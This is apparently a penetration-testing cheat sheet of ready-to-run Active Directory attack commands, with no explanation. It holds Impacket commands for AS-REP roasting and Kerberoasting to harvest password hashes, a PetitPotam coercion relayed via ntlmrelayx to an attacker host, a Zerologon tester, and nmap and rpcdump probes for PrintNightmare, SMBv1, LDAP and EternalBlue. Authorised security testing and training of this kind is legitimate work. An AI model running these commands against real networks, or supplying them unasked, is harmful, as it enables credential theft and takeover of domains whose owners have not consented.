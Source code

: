 # Windows Active Directory

## AS-REP Roasting

GetNPUsers.py -dc-ip <TARGET_IP> -usersfile /usr/share/seclists/Usernames/top-usernames-shortlist.txt
 -no-pass <DOMAIN.TLD>/ | grep -v UNKNOWN
 
GetNPUsers.py -dc-ip <TARGET_IP> -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -no-pass <DOMAIN.TLD>/ | grep -v UNKNOWN

## PetitPotam
ntlmrelayx.py -smb2support
python3 petitpotam.py <ATTACKER_IP> <TARGET_IP>

## ZeroLogin
python3 zerologon_tester.py <NETBIOS DC COMPUTER NAME> <TARGET_IP>

## Kerberoasting
GetUserSPNs.py -request <AD_DOMAIN>/<USER>:<PASSWORD>

GetUserSPNs.py -request<AD_DOMAIN>/<USER> -hashes <REPLACE WITH NTLM HASHES eg ABC:DEF>

## PrintNightmare
rpcdump.py <TARGET_IP> | egrep 'MS-RPRN|MS-PAR'

## SMB Signing
nmap --script smb2-security-mode -p 445 <TARGET_IP>

## SMBv1
nmap --script smb-protocols -p 445 <TARGET_IP>

## LDAP
nmap -sV -p 389,636,3268,3269 --script ldap-search,ldap-rootdse,ldap-novell-getpass <TARGET_IP>

ldapsearch -x -H ldap://<TARGET_IP>:3268

ldapsearch -x -H ldap://<TARGET_IP>:3268 -b "dc=<CHANGE>,dc=<CHANGE>"

## EternalBlue
nmap --script smb-vuln-ms17-010 -p 445 <IP_ADDRESS>

